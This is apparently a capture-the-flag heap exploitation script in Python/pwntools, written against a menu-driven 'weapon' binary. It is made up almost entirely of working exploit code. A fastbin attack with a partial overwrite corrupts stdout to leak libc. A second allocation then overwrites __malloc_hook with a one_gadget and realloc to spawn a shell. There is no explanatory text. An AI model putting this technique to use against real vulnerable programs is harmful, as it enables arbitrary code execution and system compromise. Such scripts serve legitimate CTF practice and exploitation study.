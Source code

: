 ```bash
def delete(idx):
    sla('choice >> \n',str(2))
    sla('input idx :',str(idx))

def edit(idx,content):
    sla('choice >> \n',str(3))
    sla('input idx: ',str(idx))
    sa('new content:\n',content)


add(0x60,0,'a')
add(0x60,1,'b')
add(0x60,8,'d')
add(0x20,7,'prevent_chunk')
delete(1)
delete(0)
edit(0,'\x50')
#duan()
add(0x60,5,p64(0)*9+p64(0x71))
add(0x60,6,p64(0)*3+p64(0xe1))
delete(1)
#duan()
delete(0)
delete(8)

edit(8,'\x70')

edit(6,p64(0)*3+p64(0x71)+b'\xdd\x25')

add(0x60,9,'a')
add(0x60,10,'a')
#duan()
add(0x60,11,b'\x00'*0x33+p64(0xfbad1887)+p64(0)*3+b'\x00')

leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc_base=leak_libc-0x3c5600
leak('libc_base ',libc_base)
malloc_hook=libc_base+libc.symbols['__malloc_hook']
leak('malloc_hook ',malloc_hook)
realloc=libc_base+libc.symbols['realloc']
ogs = [0x45226,0x4527a,0xf03a4,0xf1247]
og=libc_base+ogs[1]
leak('og ',og)

add(0x60,10,'a') 

delete(10)
edit(10,p64(malloc_hook-0x23))
#duan()
add(0x60,12,'a')

add(0x60,13,b'\x00'*0xb+p64(og)+p64(realloc+4))
#duan()
p.sendlineafter('choice >> ',str(1))
p.sendlineafter('wlecome input your size of weapon: ',str(0x60))
p.sendlineafter('input index: ',str(14))
#duan()
itr()
```
